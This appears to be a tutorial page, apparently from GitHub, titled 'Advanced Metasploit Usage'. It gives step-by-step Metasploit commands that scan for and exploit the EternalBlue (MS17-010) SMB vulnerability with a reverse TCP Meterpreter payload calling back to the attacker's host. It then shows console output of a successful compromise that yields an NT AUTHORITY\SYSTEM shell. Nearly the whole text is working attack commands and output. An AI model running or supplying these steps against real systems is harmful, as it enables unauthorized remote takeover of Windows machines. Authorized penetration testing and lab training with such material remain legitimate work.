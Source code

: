 ### Advanced Metasploit Usage

```bash
# Use the auxiliary scanner first
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <TARGET_IP>
run

# If vulnerable, proceed with exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT 4444

# Advanced: Set target automatically
set TARGET 0

# Run with verbose output
set VERBOSE true
exploit
```

**Successful Meterpreter Session:**

```
[*] Started reverse TCP handler on 10.10.10.10:4444
[*] 10.10.10.12:445 - Connecting to target for exploitation.
[+] 10.10.10.12:445 - Connection established for exploitation.
[+] 10.10.10.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.12:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.10.10.12:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard
[*] 10.10.10.12:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[+] 10.10.10.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[+] 10.10.10.12:445 - Trying exploit with 12 Groom Allocations.
[+] 10.10.10.12:445 - Sending all but last fragment of exploit packet
[+] 10.10.10.12:445 - Starting non-paged pool grooming
[+] 10.10.10.12:445 - Sending SMBv2 buffers
[+] 10.10.10.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[+] 10.10.10.12:445 - Sending final SMBv2 buffers.
[+] 10.10.10.12:445 - Sending last fragment of exploit packet!
[+] 10.10.10.12:445 - Receiving response from exploit packet
[+] 10.10.10.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[+] 10.10.10.12:445 - Signing and sending the final exploit packet!
[*] 10.10.10.12:445 - Waiting for 60 seconds for shell to connect...
[*] Sending stage (200262 bytes) to 10.10.10.12
[*] Meterpreter session 1 opened (10.10.10.10:4444 -> 10.10.10.12:49159) at 2024-01-15 10:30:45 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
